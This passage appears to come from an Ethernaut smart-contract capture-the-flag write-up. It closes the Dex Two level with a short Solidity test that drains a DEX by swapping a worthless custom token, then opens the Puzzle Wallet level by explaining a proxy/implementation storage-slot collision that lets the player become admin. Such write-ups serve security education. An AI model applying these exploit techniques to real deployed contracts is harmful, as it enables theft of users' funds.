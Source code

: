 And the attack to be


```solidity
function testExploit() public {
  // will get as token amount 1 * (100/ 1) = 100 on each swap
  dex.swap(address(myToken), dex.token1(), 1);
  dex.swap(address(myToken), dex.token2(), 1);
  utils.submitLevelInstance(challengeAddress);
}
```

### References

* https://eips.ethereum.org/EIPS/eip-20
* https://docs.openzeppelin.com/contracts/4.x/erc20
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/f8e3c375d19bd12f54222109dd0801c0e0b60dd2/contracts/token/ERC20/IERC20.sol

## 24 Puzzle Wallet

To beat this level, we need to comply with

```solidity
proxy.admin() == _player
```

### Solution

So `PuzzleProxy` is an instance of `UpgradeableProxy`. This means that we can give and upgrade an `_implementation` which is the layer where the logic is. Problem with proxies is which pattern we use to store data: The state is in the proxy, with the logic layer operating on the contaxt of this proxy. It is in essence a `delegatecall`. Then, if we are not careful, we can overwrite with our implementation the state in an undesirable way.

#### Proxies and Slots

Look at the state at the proxy

```solidity
address public pendingAdmin;
address public admin;
```

This is, the slot 0 contains the variable `pendingAdmin`, and the slot 1 the variable `admin`.

While at the implementation

```solidity
address public owner;
uint256 public maxBalance;
mapping(address => bool) public whitelisted;
mapping(address => uint256) public balances;
```

In here, all logic to `owner` will work with slot 0, and interactions with `maxBalance` with slot 1.

